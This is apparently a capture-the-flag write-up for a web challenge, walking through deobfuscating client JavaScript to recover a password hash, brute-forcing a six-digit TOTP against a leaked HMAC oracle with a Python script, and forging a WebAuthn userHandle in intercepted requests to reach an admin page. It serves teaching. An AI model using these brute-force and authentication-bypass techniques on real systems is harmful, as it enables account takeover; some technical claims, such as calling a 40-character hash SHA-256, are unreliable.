








# Write-up of the challenge "Multifactorial"

This challenge is part of the **"Web"** category and earns 208 points.

# Goal of the challenge

So the goal of the challenge is that there is 3 stages. The first stage asks for a password. The second stage asks you to predict the **TOTP code**. The third stage is that it asks you to create a passkey of a santa but you are not permitted to have the username of santa. But the problem here is that you must have the **userHandle** of **santa** to visit **/admin**.

# Program structure 

## Task 1

```
<script>
      async function submitPassword() {
      function _0xce3b(){var _0x148159=['4148163vSdrFC','5725159VzzaPT','2397752ODowZJ','20DlKRcS','24TpyFfD','16748QiSgfp','You\x27re\x20really\x20lucky!\x20Here\x27s\x20my\x20hash\x20as\x20a\x20reward.\x20bf33632dd9668787878890cb4fbb54261b6b7571','366wwxTHU','54915cJlHyP','random','240864NVXXPi','926331SmwYQm','82GgSHPB'];_0xce3b=function(){return _0x148159;};return _0xce3b();}var _0x2f6642=_0x13fd;function _0x13fd(_0x43c31d,_0x101d9b){_0x43c31d=_0x43c31d-0x1d6;var _0xce3b7c=_0xce3b();var _0x13fdee=_0xce3b7c[_0x43c31d];return _0x13fdee;}(function(_0xa859af,_0x4b1369){var _0x3a93af=_0x13fd,_0x167804=_0xa859af();while(!![]){try{var _0x33920e=-parseInt(_0x3a93af(0x1d8))/0x1*(-parseInt(_0x3a93af(0x1de))/0x2)+parseInt(_0x3a93af(0x1d6))/0x3+-parseInt(_0x3a93af(0x1db))/0x4+-parseInt(_0x3a93af(0x1e1))/0x5*(parseInt(_0x3a93af(0x1e0))/0x6)+parseInt(_0x3a93af(0x1d7))/0x7*(parseInt(_0x3a93af(0x1dd))/0x8)+-parseInt(_0x3a93af(0x1d9))/0x9+-parseInt(_0x3a93af(0x1dc))/0xa*(-parseInt(_0x3a93af(0x1da))/0xb);if(_0x33920e===_0x4b1369)break;else _0x167804['push'](_0x167804['shift']());}catch(_0x48c0e9){_0x167804['push'](_0x167804['shift']());}}}(_0xce3b,0x73dd9));Math[_0x2f6642(0x1e2)]()===0x0&&alert(_0x2f6642(0x1df));

        const statusEl = document.getElementById("status");
        const pwd = document.getElementById("password").value;

        statusEl.textContent = "";

        if (!pwd) {
          statusEl.textContent = "Please enter a password.";
          return;
        }

        const resp = await fetch("/api/something-you-know-check", {
          method: "POST",
          headers: { "Content-Type": "application/json" },
          body: JSON.stringify({ password: pwd }),
        });

        const data = await resp.json();
        if (!resp.ok) {
          statusEl.textContent = `Error: ${data.error || "Unknown error"}`;
          return;
        }

        statusEl.textContent = `${data.message}\nRedirecting to Step 2...`;
        setTimeout(() => {
          window.location.href = "/something-you-have";
        }, 800);
      }

      document.getElementById("submitBtn").addEventListener("click", submitPassword);
      document.getElementById("password").addEventListener("keypress", (e) => e.key === "Enter" && submitPassword());
    </script>
```


## Task 2

```

      const ORACLE_KEY = "17_w0Uld_83_V3Ry_fUNnY_1f_y0U_7H0u9H7_7H15_W45_4_Fl49";

      async function verifyCode() {
        const statusEl = document.getElementById("status");
        const code = document.getElementById("code").value.trim();

        statusEl.textContent = "";

        if (!code) {
          statusEl.textContent = "Please enter a TOTP code.";
          return;
        }

        const resp = await fetch("/api/something-you-have-verify?debug=0", {
          method: "POST",
          headers: { "Content-Type": "application/json" },
          body: JSON.stringify({ code }),
        });

        const data = await resp.json();
        if (!resp.ok) {
          statusEl.textContent = `Error: ${data.error || "Unknown error"}`;
          return;
        }

        statusEl.textContent = `${data.message}\nRedirecting to Step 3...`;
        setTimeout(() => {
          window.location.href = "/register-passkey";
        }, 800);
      }

      document.getElementById("verifyBtn").addEventListener("click", verifyCode);
      document.getElementById("oracleBtn").addEventListener("click", queryOracle);
      document.getElementById("code").addEventListener("keypress", (e) => e.key === "Enter" && verifyCode());
    
```


## Task 3 

```

      const statusEl = document.getElementById("status");

      function bufToB64url(buf) {
        const bytes = new Uint8Array(buf);
        let bin = "";
        for (let i = 0; i < bytes.length; i++) bin += String.fromCharCode(bytes[i]);
        return btoa(bin).replace(/\+/g, "-").replace(/\//g, "_").replace(/=+$/g, "");
      }

      function b64urlToBuf(s) {
        s = s.replace(/-/g, "+").replace(/_/g, "/");
        while (s.length % 4) s += "=";
        const bin = atob(s);
        const bytes = new Uint8Array(bin.length);
        for (let i = 0; i < bin.length; i++) bytes[i] = bin.charCodeAt(i);
        return bytes.buffer;
      }

      async function createPasskey() {
        statusEl.textContent = "";

        const name = document.getElementById("passkeyName").value.trim();
        if (!name) {
          statusEl.textContent = "Please enter a name.";
          return;
        }

        // 1) get options from server
        statusEl.textContent = "Requesting registration options...";
        const optResp = await fetch("/api/webauthn/register/options", {
          method: "POST",
          headers: { "Content-Type": "application/json" },
          body: JSON.stringify({ name }),
        });
        const optData = await optResp.json();
        if (!optResp.ok) {
          statusEl.textContent = `Error: ${optData.error || "unknown"}`;
          return;
        }

        const publicKey = optData.publicKey;

        publicKey.challenge = b64urlToBuf(publicKey.challenge);
        publicKey.user.id = b64urlToBuf(publicKey.user.id);

        // 2) browser passkey prompt
        statusEl.textContent = "Opening passkey prompt...";
        const cred = await navigator.credentials.create({ publicKey });

        // 3) send credential to server
        const payload = {
          name,
          id: cred.id,
          rawId: bufToB64url(cred.rawId),
          type: cred.type,
          response: {
            clientDataJSON: bufToB64url(cred.response.clientDataJSON),
            attestationObject: bufToB64url(cred.response.attestationObject),
          },
        };

        statusEl.textContent = "Verifying registration...";
        const verResp = await fetch("/api/webauthn/register/verify", {
          method: "POST",
          headers: { "Content-Type": "application/json" },
          body: JSON.stringify(payload),
        });
        const verData = await verResp.json();
        if (!verResp.ok) {
          statusEl.textContent = `Error: ${verData.error || "unknown"}`;
          return;
        }

        // Store helpful bits for login
        localStorage.setItem("np_name", name);
        localStorage.setItem("np_credId", verData.credId);
        localStorage.setItem("np_userHandle", verData.userHandle);

        statusEl.textContent =
          `${verData.message}\n\n` +
          `Credential ID: ${verData.credId}\n` +
          `Internal ID (userHandle): ${verData.userHandle}\n\n` +
          `Continue to login.`;
      }

      document.getElementById("registerBtn").addEventListener("click", createPasskey);
      document
        .getElementById("goLoginBtn")
        .addEventListener("click", () => (window.location.href = "/something-you-are"));
```

# Solution


## Task 1
So the first task was straight forward there was some obfuscated javascript code 
```
function _0xce3b(){var _0x148159=['4148163vSdrFC','5725159VzzaPT','2397752ODowZJ','20DlKRcS','24TpyFfD','16748QiSgfp','You\x27re\x20really\x20lucky!\x20Here\x27s\x20my\x20hash\x20as\x20a\x20reward.\x20bf33632dd9668787878890cb4fbb54261b6b7571','366wwxTHU','54915cJlHyP','random','240864NVXXPi','926331SmwYQm','82GgSHPB'];_0xce3b=function(){return _0x148159;};return _0xce3b();}var _0x2f6642=_0x13fd;function _0x13fd(_0x43c31d,_0x101d9b){_0x43c31d=_0x43c31d-0x1d6;var _0xce3b7c=_0xce3b();var _0x13fdee=_0xce3b7c[_0x43c31d];return _0x13fdee;}(function(_0xa859af,_0x4b1369){var _0x3a93af=_0x13fd,_0x167804=_0xa859af();while(!![]){try{var _0x33920e=-parseInt(_0x3a93af(0x1d8))/0x1*(-parseInt(_0x3a93af(0x1de))/0x2)+parseInt(_0x3a93af(0x1d6))/0x3+-parseInt(_0x3a93af(0x1db))/0x4+-parseInt(_0x3a93af(0x1e1))/0x5*(parseInt(_0x3a93af(0x1e0))/0x6)+parseInt(_0x3a93af(0x1d7))/0x7*(parseInt(_0x3a93af(0x1dd))/0x8)+-parseInt(_0x3a93af(0x1d9))/0x9+-parseInt(_0x3a93af(0x1dc))/0xa*(-parseInt(_0x3a93af(0x1da))/0xb);if(_0x33920e===_0x4b1369)break;else _0x167804['push'](_0x167804['shift']());}catch(_0x48c0e9){_0x167804['push'](_0x167804['shift']());}}}(_0xce3b,0x73dd9));Math[_0x2f6642(0x1e2)]()===0x0&&alert(_0x2f6642(0x1df));
```

So what I did was just deobfuscate it using <a href="https://obf-io.deobfuscate.io">Obfuscator.io</a>
and I got this in return:

```
function _0xce3b() {
  var _0x148159 = ['4148163vSdrFC', '5725159VzzaPT', '2397752ODowZJ', '20DlKRcS', '24TpyFfD', '16748QiSgfp', "You're really lucky! Here's my hash as a reward. bf33632dd9668787878890cb4fbb54261b6b7571", '366wwxTHU', '54915cJlHyP', 'random', '240864NVXXPi', '926331SmwYQm', '82GgSHPB'];
  _0xce3b = function () {
    return _0x148159;
  };
  return _0xce3b();
}
function _0x13fd(_0x43c31d, _0x101d9b) {
  _0x43c31d = _0x43c31d - 0x1d6;
  var _0xce3b7c = _0xce3b();
  var _0x13fdee = _0xce3b7c[_0x43c31d];
  return _0x13fdee;
}
(function (_0xa859af, _0x4b1369) {
  var _0x167804 = _0xa859af();
  while (true) {
    try {
      var _0x33920e = -parseInt(_0x13fd(0x1d8)) / 0x1 * (-parseInt(_0x13fd(0x1de)) / 0x2) + parseInt(_0x13fd(0x1d6)) / 0x3 + -parseInt(_0x13fd(0x1db)) / 0x4 + -parseInt(_0x13fd(0x1e1)) / 0x5 * (parseInt(_0x13fd(0x1e0)) / 0x6) + parseInt(_0x13fd(0x1d7)) / 0x7 * (parseInt(_0x13fd(0x1dd)) / 0x8) + -parseInt(_0x13fd(0x1d9)) / 0x9 + -parseInt(_0x13fd(0x1dc)) / 0xa * (-parseInt(_0x13fd(0x1da)) / 0xb);
      if (_0x33920e === _0x4b1369) {
        break;
      } else {
        _0x167804.push(_0x167804.shift());
      }
    } catch (_0x48c0e9) {
      _0x167804.push(_0x167804.shift());
    }
  }
})(_0xce3b, 0x73dd9);
if (Math[_0x13fd(0x1e2)]() === 0x0) {
  alert(_0x13fd(0x1df));
}
```

We see something worh noting that there's a hash **bf33632dd9668787878890cb4fbb54261b6b7571** and I suspect it might be the password so I used <a href="https://crackstation.net">crackstation</a> to crack it and I got the password in return **northpole123** and that the hash was sha-256.


## Task 2

In task 2 we get the **const ORACLE_KEY = "17_w0Uld_83_V3Ry_fUNnY_1f_y0U_7H0u9H7_7H15_W45_4_Fl49";** and we need to use it to crack the **TOTP code**.

So I used old scripts that bruteforce the **target hmac** by scrambling the **pin code with the ORACLE_KEY**. But the problem here was how do we get the **target hmac**.
I started accessing the **/api** section for that challenge, because we had the endpoint of **api/something-you-have-verify** then the target api should be **https://multifactorial.csd.lol/api/something-you-have-oracle**, it's logical right? If it wasn't to you then you could have used **gobuster**.

That api returned:

```
{
  "hmac": "6103b1f33aca71734cbac3b2cc437adbb326366d84868c2a0c7833941ee44089",
  "serverTime": 1766680561
}
```

So what I did was reuse old scripts and fetch the **target hmac** from the api **https://multifactorial.csd.lol/api/something-you-have-oracle** and then try to crack the correct pin that when is computated with the **Oracle key** will give the **target hmac**.

solve.py:

```
import hmac
import hashlib
from concurrent.futures import ThreadPoolExecutor
import requests

ORACLE_KEY = "17_w0Uld_83_V3Ry_fUNnY_1f_y0U_7H0u9H7_7H15_W45_4_Fl49"
URL = "https://multifactorial.csd.lol"
SESSION_COOKIE = "connect.sid=s%3A_ttd9RMMn75sx338952EztmM596mwA_H.LooIe4PKOtAFeeE6qIh88K12U2S3MEQH3pJNoCUSKyQ"

def get_oracle_hmac():
    """Get current target HMAC from oracle."""
    headers = {'Cookie': SESSION_COOKIE}
    resp = requests.get(f"{URL}/api/something-you-have-oracle", headers=headers)
    data = resp.json()
    return data['hmac'], data['serverTime']

def test_code(code):
    """Test if this code produces the target HMAC."""
    code_str = str(code).zfill(6)
    h = hmac.new(ORACLE_KEY.encode(), code_str.encode(), hashlib.sha256)
    return code_str, h.hexdigest()

def brute_force(target_hmac):
    """Brute force 000000 to 999999."""
    print(f"Target HMAC: {target_hmac}")
    print("Brute forcing 6-digit codes...")
    
    found = None
    # Test in batches for speed
    with ThreadPoolExecutor(max_workers=8) as executor:
        futures = []
        for code in range(0, 1000000):
            futures.append(executor.submit(test_code, code))
            if len(futures) >= 10000:
                for future in futures:
                    code_str, hmac_val = future.result()
                    if hmac_val == target_hmac:
                        found = code_str
                        break
                if found:
                    executor.shutdown(wait=False)
                    break
                futures = []
        
        # Check remaining
        if not found:
            for future in futures:
                code_str, hmac_val = future.result()
                if hmac_val == target_hmac:
                    found = code_str
                    break
    
    return found

# Main execution
target_hmac, server_time = get_oracle_hmac()
print(f"Server time: {server_time}")
print(f"Target HMAC: {target_hmac}")

found_code = brute_force(target_hmac)
if found_code:
    print(f"\nFOUND CODE: {found_code}")
    
    # Submit it
    headers = {
        'Content-Type': 'application/json',
        'Cookie': SESSION_COOKIE
    }
    payload = {'code': found_code}
    resp = requests.post(
        f"{URL}/api/something-you-have-verify?debug=1",
        headers=headers,
        json=payload
    )
    print(f"Submission response: {resp.json()}")
else:
    print("Code not found (shouldn't happen for 6-digit space)")
```

## Task 3

So I started by catching the request for creating a passkey using **burpsuite**. Note the the name is **123** and the id is **YjZkYzkwODNkYTM3MmZlZDIxMTlhY2UxMWFlOWJhODcxM2Y3ZTMwODI3ZTg1NDM3MWViNWQyMzM1YWVjNjY0Yg==**.


So my thought is what if the id is somehow deprived from the username of the user maybe by doing that we can use it to login in as Santa, and before you say it we can't create a passkey using Santa because the server blocked it. So I used cyberchef and found out it was base64 the user id and then I thought it might be a hash and turned out it was sha-256 hash of **123**. Also the server will not let you into the **/admin** endpoint if you don't have the correct **userHandle** for Santa as you can see here:



So our procces was:

**base 64 decode name -> sha256 the decoded base64**.





So our we reverse the logic and get 

**sha256 santa -> base64 santa**

We knew we need to be logged in as **Santa** to visit the **/admin** endpoint. So I used **cyberchef** to get our id.


After that we basically change the request to have the username **santa** and put the id we got from **cyberchef**.



Notice how the userHandle is **ttyQg9o3L-0hGazhGum6hw**. What I did directly after was intercept the **/auth/verify** and pass the userhandle we got:



Now we are logged in as santa so I used the **burpsuite's chrome's** to got to the url **https://multifactorial.csd.lol/admin** and I got this back

```
csd{1_L34rn3D_7h15_Fr0m_70m_5C077_84CK_1n_2020}
```


